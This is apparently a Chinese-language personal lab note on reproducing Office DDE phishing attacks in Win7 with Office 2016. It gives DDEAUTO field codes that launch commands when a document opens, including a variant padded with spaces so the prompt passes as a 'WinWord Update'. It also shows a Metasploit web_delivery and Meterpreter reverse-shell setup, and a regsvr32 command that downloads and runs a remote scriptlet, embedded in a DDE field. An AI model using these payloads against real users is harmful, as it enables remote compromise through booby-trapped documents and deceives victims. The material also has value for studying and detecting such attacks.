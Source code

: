 # DDE

> 环境: Win7 + Office 2016
>
> 可以在 [MSDN, 我告诉你 - 做一个安静的工具站 (itellyou.cn)](https://msdn.itellyou.cn/?ang=2h-cn) 找对应的镜像
>
> - Office 2016: `ed2k://|file|cn_office_professional_plus_2016_x86_x64_dvd_6969182.iso|2588266496|27EEA4FE4BB13CD0ECCDFC24167F9E01|/`
>
> - Win7:
>
>   [原版软件 (itellyou.cn)](https://next.itellyou.cn/Original/#cbp=Product?ID=6f677346-0a09-43fa-b60d-e878ed7625a0)
>
>   

> [鱼叉钓鱼：利用 Office 文档进行 DDE 攻击-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1816083)

DDE (Dynamic Data Exchange) 是一种用于在Windows应用程序之间交换数据的协议

攻击者可以利用 DDE 通过自定义字段插入到Word或Excel文档中，用于执行恶意代码

---

当用户打开包含DDE字段的文档时，Office应用程序会显示两个警告：

1. **第一个警告**：告知文档包含指向其他文件的链接。
2. **第二个警告**：告知将打开远程命令提示符。

如果用户忽略警告并允许操作，恶意命令将被执行，导致系统被攻击

---

例如: 创建一个文档 `DDE.docx`, 打开后使用 `Ctrl+F9(或者选中"插入"-"文件部件"-"域", 选中第一个 = (Formula) 然后右键切换域代码来编辑代码)` 

---

## 弹计算器

> [鱼叉钓鱼：利用 Office 文档进行 DDE 攻击-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1816083)

以打开计算器为例, 在域代码中输入如下内容

```JavaScript
DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"
```

![image-20240606103628125](http://cdn.ayusummer233.top/DailyNotes/202406061623809.png)

保存后重新打开即可触发域代码执行

---

> 在 Office365 和 Office 2013 的 Word 上都没复现出来,都只有如下第一条警告, 然后就没有动静了
>
> ![image-20240517153248330](http://cdn.ayusummer233.top/DailyNotes/202405171532647.png)
>
> ---
>
> 后续在 Win7+Office2016 成功执行了 DDE
>
> ![image-20240606103518902](http://cdn.ayusummer233.top/DailyNotes/202406061623666.png)
>
> ![image-20240606103531060](http://cdn.ayusummer233.top/DailyNotes/202406061623998.png)
>
> ![image-20240606103541298](http://cdn.ayusummer233.top/DailyNotes/202406061623404.png)

也可以伪装一下

> [谨防钓鱼——OFFICE DDE复现_execl dde漏洞 复现-CSDN博客](https://blog.csdn.net/tempulcc/article/details/108471488)

```js
DDEAUTO C:\\Programs\\Office\\Updates\\WINWORD.exe/../../../../Windows\\System32\\cmd.exe "WinWord Update                                  /k calc.exe"
```

> PS: WinWord Update 和 `/k` 之间多加些空格, 否则效果不是很好:
>
> ![image-20240606181142069](http://cdn.ayusummer233.top/DailyNotes/202406061811150.png)
>
> ![image-20240606181228410](http://cdn.ayusummer233.top/DailyNotes/202406061812566.png)
>
> ![image-20240606181240958](http://cdn.ayusummer233.top/DailyNotes/202406061812069.png)

![image-20240606181847082](http://cdn.ayusummer233.top/DailyNotes/202406061818175.png)

![image-20240606181815913](http://cdn.ayusummer233.top/DailyNotes/202406061818994.png)

![image-20240606181828940](http://cdn.ayusummer233.top/DailyNotes/202406061818028.png)

---

## 反弹Shell

```bash
msf > use exploit/multi/script/web_delivery
msf > set target 3
msf > set payload windows/meterpreter/reverse_tcp_uuid
msf > set lhost [msf主机要监听的本地ip地址]
msf > set lport [msf主机要监听的本地端口]
msf exploit(multi/script/web_delivery) > exploit -j 
[*] Exploit running as background job 0.
```

- `target 3 -> Regsvr32`

  `regsvr32` 是 Windows 的一个命令行工具, 用于在 Windows 注册表中注册和注销 COM（Component Object Model）对象。这些对象通常是 DLL（动态链接库）或 OCX（ActiveX 控件）文件。注册这些文件允许它们被其他程序调用和使用。

- `windows/meterpreter/reverse_tcp_uuid`: 用于在目标 Windows 系统上建立一个反向连接的 Meterpreter 会话

  与 `windows/meterpreter/reverse_tcp` 类似，但它包含了 UUID（通用唯一标识符）的支持，这有助于在目标系统上运行多个实例时进行区分。这在一些复杂的攻击场景中非常有用，可以更好地管理和跟踪不同的会话。

- `exploit -j`: 启动一个漏洞利用模块并将其作为后台作业（job）运行

  `-j` 表示以作业的方式在后台运行，这意味着漏洞利用模块不会阻塞当前的控制台，允许用户在当前会话中执行其他命令或操作

![image-20240606105827774](http://cdn.ayusummer233.top/DailyNotes/202406061623460.png)

得到上线命令:

```cmd
regsvr32 /s /n /u /i:http://100.1.1.131:8080/pakhnAAjLe0wl.sct scrobj.dll
```

- **/s**：静默模式，执行过程中不显示任何消息框

- **/n**：不用 `DllRegisterServer`，而是使用 `DllInstall` 方法

- **/u**：卸载模式，与 `/i` 参数一起使用时，会调用 `DllInstall` 方法以卸载而不是安装

- **/i:http://100.1.1.131:8080/pakhnAAjLe0wl.sct**：指定传递给 `DllInstall` 方法的参数

  这里是一个远程 URL，指向一个 `.sct` 脚本文件，`regsvr32` 会下载并执行它

  ![image-20240606133303334](http://cdn.ayusummer233.top/DailyNotes/202406061623428.png)

  ![image-20240606133342964](http://cdn.ayusummer233.top/DailyNotes/202406061623821.png)

  具体来说是调 WScript 调 Powershell 执行编码了的命令; 解码后的命令为:

  ![image-20240606143717556](http://cdn.ayusummer233.top/DailyNotes/202406061623227.png)

  最终还是回到下载远程字符串命令并执行, 具体命令为:

  ![image-20240606144027647](http://cdn.ayusummer233.top/DailyNotes/202406061623408.png)

  具体就不往后解了, 还套了好几层, 等后续做个 Powershell 解混淆的专项研究, 收集和编写一些可用工具再看, 人力解混淆太耗时间了

- **scrobj.dll**：指定要使用的 DLL 文件，这里是 `scrobj.dll`, 全称为 "Script Object Model DLL", 是 Windows 脚本宿主（Windows Script Host，简称 WSH）的一部分, 提供了运行和管理脚本的功能

  WSH 支持多种脚本语言，如 VBScript 和 JScript，允许用户编写和执行脚本来自动化任务

---

得到的反弹代码是:

```cmd
regsvr32 /s /n /u /i:http://100.1.1.131:8080/pakhnAAjLe0wl.sct scrobj.dll
```

写成 DDE 就是

```js
DDEAUTO c:\\windows\\system32\\cmd.exe "/k regsvr32 /s /n /u /i:http://100.1.1.131:8080/pakhnAAjLe0wl.sct scrobj.dll"
```

![image-20240606152651583](http://cdn.ayusummer233.top/DailyNotes/202406061623511.png)

保存后重新打开:

![image-20240606152745928](http://cdn.ayusummer233.top/DailyNotes/202406061623626.png)

![image-20240606152808558](http://cdn.ayusummer233.top/DailyNotes/202406061624209.png)

![image-20240606152851391](http://cdn.ayusummer233.top/DailyNotes/202406061624930.png)

![image-20240606175736169](http://cdn.ayusummer233.top/DailyNotes/202406061758785.png)

火绒可检出:

![image-20240606160105265](http://cdn.ayusummer233.top/DailyNotes/202406061624984.png)

卡巴可检出:

![image-20240606160926908](http://cdn.ayusummer233.top/DailyNotes/202406061624353.png)

![image-20240606161518095](http://cdn.ayusummer233.top/DailyNotes/202406061624285.png)

---

## 参考链接

> [下面链接的OneTab合集](https://www.one-tab.com/page/m1oUCGvRSVywUorY3lTPvA)
>
> 基本描述都一样, 都无法成功复现
>
> ----
>
> [鱼叉钓鱼：利用 Office 文档进行 DDE 攻击-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1816083)
>
> [钓鱼攻击：Office DDE 漏洞复现笔记 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/32103256)
>
> [干货 | Office文档钓鱼的实战和免杀技巧-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1917641)
>
> [鱼叉钓鱼：利用 Office 文档进行 DDE 攻击_dde攻击-CSDN博客](https://blog.csdn.net/weixin_45575473/article/details/115894657)
>
> [wps和office宏钓鱼从认识到免杀 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/network/317116.html)
>
> [谨防钓鱼——OFFICE DDE复现-CSDN博客](https://blog.csdn.net/tempulcc/article/details/108471488)
>
> [钓鱼攻击：Office DDE 漏洞复现笔记 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/32103256)



